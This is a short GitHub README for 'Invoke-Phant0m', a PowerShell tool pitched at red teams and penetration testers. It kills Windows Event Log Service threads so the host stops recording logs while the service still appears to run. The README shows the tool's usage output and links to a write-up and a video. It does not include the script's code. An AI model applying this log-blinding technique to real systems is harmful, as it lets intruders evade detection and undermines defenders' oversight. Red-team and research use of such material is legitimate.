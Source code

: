 # Invoke-Phant0m
This script walks thread stacks of Event Log Service process (spesific svchost.exe) and identify Event Log Threads to kill Event Log Service Threads. So the system will not be able to collect logs and at the same time the Event Log Service will appear to be running.

I have made this script for two reasons. First, This script will help to Red Teams and Penetration Testers. Second, I want to learn Powershell and Low-Level things on Powershell for cyber security field.

# Usage

```
PS C:\> Invoke-Phant0m
        _                 _    ___
  _ __ | |__   __ _ _ __ | |_ / _ \ _ __ ___
 | '_ \| '_ \ / _` | '_ \| __| | | | '_ ` _ \
 | |_) | | | | (_| | | | | |_| |_| | | | | | |
 | .__/|_| |_|\__,_|_| |_|\__|\___/|_| |_| |_|
 |_|


[!] I'm here to blur the line between life and death...

[*] Enumerating threads of PID: 1000...
[*] Parsing Event Log Service Threads...
[+] Thread 1001 Succesfully Killed!
[+] Thread 1002 Succesfully Killed!
[+] Thread 1003 Succesfully Killed!
[+] Thread 1004 Succesfully Killed!

[+] All done, you are ready to go!
```
# Technical Details
https://artofpwn.com/phant0m-killing-windows-event-log.html

# Video
[![PoC Video](https://i.ytimg.com/vi/PF0-tZWCmpc/maxresdefault.jpg)](https://www.youtube.com/watch?v=PF0-tZWCmpc)


